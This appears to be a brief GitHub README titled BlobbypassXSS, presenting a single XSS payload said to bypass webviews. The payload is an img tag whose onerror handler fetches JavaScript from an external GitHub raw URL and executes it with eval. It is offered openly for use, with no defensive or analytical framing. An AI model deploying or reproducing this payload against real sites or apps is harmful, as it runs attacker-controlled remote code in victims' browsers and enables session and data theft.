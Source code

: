 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Ajayadla/Blobbypasscode/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
